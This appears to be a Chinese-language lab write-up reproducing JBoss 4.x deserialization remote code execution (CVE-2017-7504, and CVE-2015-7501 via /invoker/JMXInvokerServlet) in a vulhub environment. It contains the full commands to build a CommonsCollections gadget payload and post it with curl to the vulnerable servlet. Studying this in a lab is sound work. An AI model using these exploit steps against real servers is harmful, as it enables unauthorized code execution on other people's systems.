


JBoss 4.x JBossMQ JMS 反序列化漏洞
--

复现环境来自vulhub:
https://github.com/vulhub/vulhub/tree/master/jboss/CVE-2017-7504


Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

参考：

- https://github.com/joaomatosf/JavaDeserH2HC
- https://www.youtube.com/watch?v=jVMr4eeJ2Po

## 漏洞环境

执行如下命令启动JBoss AS 4.0.5：

```
docker-compose up -d
```

环境启动后，目标为`http://your-ip:8080`。

## 漏洞复现

参考利用工具[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)，我们选择一个Gadget：`ExampleCommonsCollections1WithHashMap`，编译并生成序列化数据：

```
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "touch /tmp/success"
```

可见，我们执行的命令是`touch /tmp/success`。执行完成后，将生成一个文件`ExampleCommonsCollections1WithHashMap.ser`，将该文件作为body发送如下数据包：

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser
```

上述是来自vulhub的readme,但是我在使用curl发送数据包的时候出现了一些问题，所以，我还是通过python写了个脚本来发送的payload,burp抓包如下（需要注意的是content-type为x-amf）



我执行的命令是ping我的dnslog平台，dnslog成功记录到



证明漏洞成功利用


### cve-2015-7501

这个漏洞与上个漏洞的poc是同一个，只是利用路径更改为/invoker/JMXInvokerServlet


